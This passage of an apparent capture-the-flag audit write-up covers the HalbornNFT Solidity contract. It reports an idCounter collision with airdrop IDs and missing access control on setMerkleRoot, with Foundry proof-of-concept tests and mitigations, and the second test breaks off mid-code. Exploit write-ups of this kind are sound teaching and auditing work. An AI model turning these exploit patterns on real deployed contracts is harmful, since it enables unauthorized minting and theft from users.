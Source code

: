 
Recommended Mitigation Steps:

Initialize the idCounter state variable with a sufficiently high value. For example, if 10000 NFTs are reserved for airdrops (IDs: 0 - 9999), then the idCounter needs to be at least at 10000 


POC: The following test will fail:

function test_UserCanBuySeveralNFTs() public {
    //Alice mints her airdrop NFT (ID = 15)
    vm.prank(ALICE);
    nft.mintAirdrops(15, ALICE_PROOF_1);

    vm.deal(BOB, 100 ether);

    //Bob wants to buy 20 NFTs
    vm.startPrank(BOB);
    for (uint i; i < 20; ++i) {
        nft.mintBuyWithETH{value: 1 ether}();
    }
    vm.stopPrank();

    assertEq(nft.balanceOf(BOB), 15);
}

Recommended Mitigation Steps:

Initialize the idCounter state variable in the initialize function in the HalbornNFT contract

+ idCounter = 10000;

Alternatively, a setIdCounter function could also be provided and called in the initialize function (similar to the setPrice and setMerkleRoot functions).



H03 : Lack of access control on HalbornNFT::setMerkleRoot  

Risk: High

Link: https://github.com/HalbornSecurity/CTFs/blob/e0e91e535617f9ed3bfeb5db740e7c9782dca1ee/HalbornCTF_Solidity_Ethereum/src/HalbornNFT.sol#L41

Description:

Because there is no access control modifier on the setMerkleRoot function, anyone can mint unlimited airdrop NFTs. 

POC:

function test_AnyoneCanMintAirdropNFTs() public {
    Merkle m = new Merkle();
    // Alice wants to mint "free" airdrop NFTs => she simply provides an ID that has not been minted yet
    // and a second node (with arbitrary data) in order to create a merkle root and thr required merkle proof data
    bytes32[] memory data = new bytes32[](2);
    data[0] = keccak256(abi.encodePacked(ALICE, uint256(1)));
    data[1] = keccak256(abi.encodePacked(BOB, uint256(2)));
